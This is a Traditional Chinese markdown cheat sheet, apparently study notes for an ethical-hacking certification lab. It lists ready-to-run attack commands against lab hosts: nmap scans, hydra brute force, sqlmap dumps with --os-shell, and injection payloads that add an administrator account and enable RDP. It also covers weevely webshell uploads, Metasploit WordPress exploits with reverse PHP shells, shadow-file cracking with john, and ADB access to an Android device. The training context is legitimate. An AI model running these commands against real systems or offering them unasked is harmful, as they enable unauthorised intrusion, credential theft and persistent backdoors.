 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

- 參數串改攻擊
<details>
  <summary>MSSQL隱碼攻擊</summary>

  ```console
  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
  ```
</details>

- MySQL盲隱碼攻擊

<details>
  <summary>命令注入攻擊</summary>

  ```console
  | whoami
  | net user cehp /add
  | net users
  | net localgroup Administrators cehp /add
  | net localgroup Administrators
  | reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  | netstat -an | findstr :3389
  ```
</details>

<details>
  <summary>Webshell上傳攻擊</summary>

  ```console
  weevely generate cehp backdoor.php
  weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
  whoami
  ```
</details>

<details>
  <summary>利用WPScan破解WordPress使用者密碼</summary>

  ```console
  whatweb http://10.10.10.16:8080/ceh
  wpscan --url http://10.10.10.16:8080/ceh -e u
  wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst
  ```
</details>

<details>
  <summary>利用Metasploit攻擊WordPress網站</summary>

  ```console
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username admin
  set password qwerty@123
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

- 安裝WordPress

<details>
  <summary>利用外掛漏洞攻擊WordPress網站</summary>

  ```console
  wpscan --url http://10.10.10.16:8080/ceh
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username cehuser1
  set password green
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

```console
ls /etc/passwd /etc/shadow
mkdir unix
cp /etc/passwd unix/passwd
cp /etc/shadow unix/shadow
ls unix/

unshadow unix/passwd unix/shadow > unix/pwdump.txt
john unix/pwdump.txt
john unix/pwdump.txt --show

網站
crackstation.net
gchq.github.io/CyberChef/
md5cal.com
github.com/orsicp/DIE-engine

ftp 10.10.10.10
jason
qwerty
get Flag.txt
```
```console
android

nmap -p5555 10.10.1.3-254 --open
adb connect 10.10.1.14:5555
adb devices
adb shell

su
find / -name images.jpeg 2> /dev/null

sha384sum /data/media/0/Download/images.jpeg

mkdir /sdcard/data
cp /data/media/0/Download/images.jpeg /sdcard/data
ls /sdcard/data
exit
exit

adb pull /sdcard/data/images.jpeg
ls images.jpeg
```
